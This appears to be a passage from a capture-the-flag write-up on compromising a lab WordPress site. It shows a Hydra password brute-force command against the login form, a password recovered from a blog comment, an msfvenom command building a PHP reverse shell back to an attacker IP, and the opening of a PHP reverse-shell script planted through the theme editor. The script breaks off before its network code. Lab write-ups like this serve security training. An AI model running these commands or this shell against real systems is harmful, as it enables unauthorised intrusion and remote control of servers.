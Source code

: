 Hydra bruteforce:

```
hydra -l Wade -P share/wordlists/rockyou.txt 10.10.76.39 http-post-form "/retro/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=302"
```

However, it doesn't succeed in it.

Searching for something unevident on the website I found the second post contains a comment:

```
Leaving myself a note here just in case I forget how to spell it: parzival
```

Finally, we can log into the wordpress admin panel. Typical way would be to upload a template/plugin with reverse shell:

```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.9.32.237 LPORT=4444 -f raw > rev_shell.php
```

I tried uploading it to plugins, but it failed. So then I tried theme editor.

I used the following PHP reverse shell:

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.32.237';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
```